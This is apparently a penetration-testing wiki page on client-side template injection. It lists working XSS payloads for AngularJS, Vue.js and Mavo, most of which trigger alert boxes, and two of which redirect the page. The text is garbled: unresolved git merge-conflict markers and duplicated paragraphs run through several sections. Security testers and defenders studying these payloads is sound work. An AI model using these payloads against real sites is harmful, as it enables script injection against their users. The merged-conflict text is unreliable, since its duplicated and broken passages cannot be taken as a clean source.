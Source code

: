 # Client Side Template Injection (CSTI)

## Client Side Template Injection \(CSTI\)

### Summary

It is like a [**Server Side Template Injection**](ssti-server-side-template-injection/) but in the **client**. The **SSTI** can allow you the **execute code** on the remote server, the **CSTI **could allow you to **execute arbitrary JavaScript** code in the victim.

The way to **test **for this vulnerability is very **similar **as in the case of **SSTI**, the interpreter is going to expect something to execute **between doubles keys** and will execute it. For example using something like: `{{ 7-7 }}` if the server is **vulnerable **you will see a `0` and if not you will see the original: `{{ 7-7 }}`

#### AngularJS

<<<<<<< HEAD
AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the **`ng-app`** attribute \(also known as an AngularJS directive\). When a directive is added to the HTML code, **you can execute JavaScript expressions within double curly braces**.  
For example, if your **input** is being **reflected** inside the **body** of the HTML and the body is defined with `ng-app`: **`<body ng-app>`**

You can **execute arbitrary JavaScript** code using curly braces **adding** to the **body**:
=======
 AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the **`ng-app`** attribute (also known as an AngularJS directive). When a directive is added to the HTML code, **you can execute JavaScript expressions within double curly braces**.\
For example, if your **input **is being **reflected **inside the **body **of the HTML and the body is defined with `ng-app`:  **`<body ng-app>`**

You can **execute arbitrary JavaScript** code using curly braces **adding **to the **body**:  
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

You can find a very **basic online example** of the vulnerability in **AngularJS** in [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/)

{% hint style="danger" %}
****[**Angular 1.6 removed the sandbox**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html#:\~:text=The%20Angular%20expression%20sandbox%20will,smaller%20and%20easier%20to%20maintain.\&text=Removing%20the%20expression%20sandbox%20does,surface%20of%20Angular%201%20applications.) so from this version a payload like `{{constructor.constructor('alert(1)')()}}` or `<input ng-focus=$event.view.alert('XSS')>` should work.
{% endhint %}

#### VueJS

You can find a **vulnerable vue.js** implementation in [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh)\
Working payload: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)

And the **source code** of the vulnerable example here: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)

```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```

#### **V3**

```
{{_openBlock.constructor('alert(1)')()}}
```

Credit: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

#### **V2**

```
{{constructor.constructor('alert(1)')()}}
```

Credit: [Mario Heiderich](https://twitter.com/cure53berlin)

#### Mavo

Payload:

```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```

<<<<<<< HEAD
## &lt;&lt;&lt;&lt;&lt;&lt;&lt; HEAD

**More payloads in** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)\*\*\*\*
=======
**More payloads in **[**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)****
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

### **Brute-Force Detection List**

<<<<<<< HEAD
{% embed url="https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/ssti.txt" caption="" %}

=======
{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
